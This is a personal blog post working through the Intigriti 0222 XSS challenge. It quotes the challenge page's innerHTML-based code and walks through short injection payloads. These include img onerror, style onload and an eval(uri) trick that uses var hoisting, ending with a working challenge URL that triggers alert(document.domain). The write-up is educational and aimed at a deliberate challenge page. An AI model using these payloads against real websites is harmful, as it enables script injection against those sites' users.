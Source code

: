 ```yaml
---
title: "Intigriti 0222 XSS Challenge Attempt"
date: 2022-02-19T10:59:07-08:00
slug: intigriti-0222-challenge-attempt
description: My attempt to solve the intigriti 0222 xss challenge
image: images/0222-challenge/og.png
tags:
  - javascript
  - xss
  - intigriti
type: post
---
```


## Intro

Intigriti is a hacking and bug bounty platform. They host a monthly XSS challenge. They are really fun and interesting for someone like me. 

TL;DR, I did not complete this month's challenge. 😭


See

* Challenge: https://challenge-0222.intigriti.io/challenge/xss.html
* Intigriti explanation: https://www.youtube.com/watch?v=P1bFG2qMxec


## My attempt

Even though I did not complete the challenge, I thought I would document what my thought process were and what I've learned. 

### Challenge 

The page has a form with a name input and a toggle. The instruction says the name cannot be empty nor can it be longer than 24 characters.
Let's try it. Enting the name will trigger a dialog popup with the name from the input field. 

 |
:-------------------------:|:-------------------------:
![](/images/0222-challenge/form.png)  |  ![](/images/0222-challenge/popup.png)


First thing I noticed is that the uri changed with `q` and `first` query parameters. It seems like I can manipulate these parameter to cause a XSS attack. Let's see how the parameters are appended. Looking at the source code we can see that it is set directly to the `window.location.search` property. The value is uri encoded.

```js
 window['main-form'].onsubmit = function(e) {
    e.preventDefault()
    var inputName = window['name-field'].value
    var isFirst = document.querySelector('input[type=radio]:checked').value
    if (!inputName.length) {
        showModal('Error!', "It's empty")
        return
    }

    if (inputName.length > 24) {
        showModal('Error!', "Length exceeds 24, keep it short!")
        return
    }

    window.location.search = "?q=" + encodeURIComponent(inputName) + '&first=' + isFirst
}
```

When the page is loaded, what happens to the query parameters?

```js
function showModal(title, content) {
    var titleDOM = document.querySelector('#main-modal h3')
    var contentDOM = document.querySelector('#main-modal p')
    titleDOM.innerHTML = title
    contentDOM.innerHTML = content
    window['main-modal'].classList.remove('hide')
}

// onsubmit code...

if (location.href.includes('q=')) {
    var uri = decodeURIComponent(location.href)
    var qs = uri.split('&first=')[0].split('?q=')[1]
    if (qs.length > 24) {
    showModal('Error!', "Length exceeds 24, keep it short!")
    } else {
    showModal('Welcome back!', qs)
    }
}
```

First thing I noticed is the `innerHTML` assignment. The `innerHTML` gets or sets the HTML content within the element. It is not uncommon to use `innerHTML` to set the content. This leaves vulnerability valunerbility to XSS attackers. Let's try it

```
https://challenge-0222.intigriti.io/challenge/xss.html?q=<script>alert()</script>&first=yes
```

Nothing happens? Why? Because HTML5 specifies that a `<script>` tag inserted with `innerHTML` should not execute. [See MDN\' security consideration](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations).

But even in the section, it says it does not prevent all the attacks. The most common one is to use `img` with `onerror` field.

```
<img src=# onerror=alert(1) />
```

But this exceeds the character limit. 🤔. This is where I was stuck. I looked up some small xss methods and eventually found the `onload` property in `style` tag. 

```
<style onload=alert(1)>
```

{{<figure src="/images/0222-challenge/alert.png" alt="A screenshot of the alert(1)" width="50%" >}}

Yay, I got an alert popup. But this is not the objective of the challenge. I need to get `alert(document.domain)`. I spent a couple more days on this challenge and could not find the answers.I tried to see if there is a way maybe I can use a tiny url to load some bad script. But no way I can pass below the 24 characters limit.


## Answer

1 week passed by and Integriti posted their answers. I was really curious on how they by-passed the 24 characters limit. Go watch the video solution because they can explain way better than I did.

### Solution

The method they by pass is to use one of the tiny xss payload [from this github repo](https://github.com/terjanq/Tiny-XSS-Payloads).

Alright, the answer is to use `eval` to execute some js statements, which causes a XSS attack.

```
<style/onload=eval(name)>
```

But what variable do we control in the `showModal` function? Everything is either passed in as arguments, or the `name` in the `window` global object.

### The simple trick 

The key is `var` 🤦‍♀️. Once I saw the solution, it dawn upon me!! `var` variables hoist up in the scope. Since the scope is the window itself, it is accessible in any function!

See more about [\`var\` hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting#var_hoisting).


So we can access the `uri` variable defined in the `if` block.
```
<style/onload=eval(uri)>
```

### More

But this is not the using above payload, you will see an error. `Uncaught SyntaxError: expected expression, got end of script`. Because the uri content is not actually anything of JavaScript statement.

To complete the challenge, we need to get some valid js statement into the `eval` parameter. We can try terminating the previous statement with `;` and have valid syntax afterwards. 

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&;alert(document.domain)`

This didn't work. But `eval` also works with multiline js statements. Let's try that. What is the new line character in encoded URI format: `%0A`.

`https://challenge-0222.intigriti.io/challenge/xss.html?q=%3Cstyle/onload=eval(uri)%3E&first=no&%0Aalert(document.domain)`

{{<figure src="/images/0222-challenge/complete.png" alt="XSS successful" width="50%" >}}

## Thoughts

I think this challenge is awesome. It combines a couple simple JavaScript quirkiness to create a surprising bypass. The variable hoisting and the `eval` keyword. 2 things I already knew but did not think of during the challenge. Looking forward to March's challenge.

## Things I learned

* `innerHTML` does not execute `script` tag
* [This awesome tiny xss payload repo](https://github.com/terjanq/Tiny-XSS-Payloads)
* `/` act as spaces in HTML tags. Very cool
